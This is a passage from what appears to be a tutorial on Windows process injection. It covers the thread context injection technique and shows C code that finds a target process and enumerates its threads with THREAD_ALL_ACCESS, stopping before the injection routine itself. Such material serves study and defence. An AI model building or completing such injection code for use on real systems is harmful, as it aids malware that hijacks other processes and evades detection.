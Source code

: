 # Thread Context Injection
In this injection technique, we hijack a thread in the remote process and set the instruction pointer to our payload in the target process's address space. This forces the remote thread to run our payload instead of whatever it was doing. One major drawback of this technique is that, if we hijack a critical thread, we might end up crashing the program into which we are injecting. With that out of the way, let us look at the code. 

## The Code
The program has a familiar `main()` function:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_thread_context(pid);
    return 0;
}
```
The `main()` function finds the Process ID (`pid`) of the target process and passes it onto the `inject_thread_context()` function, where the magic happens. 

But, before we get into the `inject_thread_context()` function, there is another function we need to take a look at first: `find_threadid()` - which is responsible for finding a valid Thread ID in the target process to which we can acquire a handle to.

The `find_threadid()` function has the following code:
```c
// Find thread ID in a process
DWORD find_threadid(DWORD pid) {
    THREADENTRY32 thEntry;
    thEntry.dwSize = sizeof(THREADENTRY32);
    HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    BOOL result = Thread32First(hThreadSnap, &thEntry);
    while (Thread32Next(hThreadSnap, &thEntry)) {
        if (thEntry.th32OwnerProcessID == pid) {
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID); 
            if (!IS_HANDLE_INVALID(hThread)) {
                CloseHandle(hThread);
                CloseHandle(hThreadSnap);
                return thEntry.th32ThreadID;
            }
            CloseHandle(hThread);
        }
    }
    CloseHandle(hThreadSnap);
    return 0;
}
```
It is _very_ similar to the `find_pid()` function we have been using so far. This time, we find the thread id associated with each Process and return the Thread ID. 

We use the `CreateToolhelp32Snapshot()` to create a system snapshot with the `TH32CS_SNAPTHREAD` parameter to includes all threads in the system in the snapshot. (See: [this MSDN post](https://learn.microsoft.com/en-us/windows/win32/toolhelp/traversing-the-thread-list))